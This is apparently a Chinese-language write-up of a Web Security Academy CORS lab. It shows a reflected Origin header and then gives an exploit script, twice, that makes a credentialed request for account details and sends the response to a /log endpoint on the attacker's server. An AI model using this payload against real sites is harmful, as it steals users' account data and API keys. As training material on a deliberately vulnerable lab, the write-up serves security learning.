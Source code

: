 观察到原点反映在Access-Control-Allow-Origin标头中

<img src=".\图片\Snipaste_2023-07-31_13-45-59.png" alt="Snipaste_2023-07-31_13-45-59" style="zoom:80%;" />

利用漏洞

在浏览器中，转到漏洞利用服务器并输入以下HTML（将YOUR-LAB-ID替换为您的唯一实验室URL）

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
 
    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
 
我的是：
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0af9008f043411c18067263a00750022.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
 
    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```
